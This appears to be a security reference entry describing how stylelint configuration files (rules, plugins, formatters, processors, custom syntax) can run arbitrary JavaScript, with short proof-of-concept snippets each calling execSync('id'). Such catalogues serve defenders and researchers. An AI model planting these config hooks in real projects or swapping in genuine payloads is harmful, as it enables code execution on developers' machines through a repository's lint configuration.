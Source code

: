 ```yaml
---
title: stylelint
tags:
- cli
- config-file
- eval-js
references:
- https://stylelint.io/user-guide/configure
- https://stylelint.io/developer-guide/syntaxes
- https://stylelint.io/developer-guide/formatters
- https://stylelint.io/developer-guide/plugins
files: ['sylelint.config.js', 'sylelint.config.cjs', 'sylelint.config.mjs', '.stylelintrc.js', '.stylelintrc.cjs', '.stylelintrc.mjs', '.stylelintrc', '.stylelintrc.yml', '.stylelintrc.yaml', '.stylelintrc.json', 'package.json']
---
```


`stylelint` is a CSS linter with many configuration file:

- sylelint.config.js
- sylelint.config.cjs
- sylelint.config.mjs
- .stylelintrc.js
- .stylelintrc.cjs
- .stylelintrc.mjs
- .stylelintrc
- .stylelintrc.yml
- .stylelintrc.yaml
- .stylelintrc.json
- package.json

## Custom rules

If `sylelint.config.js`, `sylelint.config.cjs`, `sylelint.config.mjs`, `.sytlelintrc.js`, `.stylelintrc.cjs` or `.stylelintrc.mjs` is used, an attack can execute JS directly in the rules definition:

```js
import { execSync } from "node:child_process";
/** @type {import('stylelint').Config} */
execSync("id");
export default {
	"rules": {},
};
```

## Custom plugin

A custom plugin can execute JavaScript:

```json
{
  "rules": {},
  "plugins": ["./pwn.cjs"]
}
```

```js
require("node:child_process").execSync("id");
module.exports = { "ruleName": "plugin/pwn-plugin" };
```

## Custom formatter

A custom formatter can execute JavaScript:

```json
{
  "rules": {},
  "formatter": "./pwn.js",
}
```

```js
import { execSync } from "node:child_process";
/**
 * @type {import('stylelint').Formatter}
 */
export default function formatter(results, returnValue) {
	execSync("id");
	return "";
}
```

## Custom processor

A custom processor can execute JavaScript:

```json
{
  "rules": {},
  "processors": [
    "./pwn.js",
  ],
}
```

```js
import { execSync } from "node:child_process";
/** @type {import("stylelint").Processor} */
export default function myProcessor() {
	return {
		name: "pwn-processor",
		postprocess(result, root) {
			execSync("id");
		},
	};
}
```

## Custom syntax

A custom syntax can execute JavaScript.

```js
import pwnSyntax from "./pwn.js";
/** @type {import('stylelint').Config} */
export default {
	"rules": {},
    "overrides": [
		{
			"files": ["*.css"],
			"extends": [],
			"customSyntax": pwnSyntax,
			"rules": {},
		},
	],
};
```

```js
import postcss from "postcss";
import { execSync } from "node:child_process";
function parse(css, opts) {
	execSync("id");
	const root = postcss.root();
	return root;
}
function stringify(node, builder) {
	postcss.stringify(node, builder);
}
export default { parse, stringify };
```

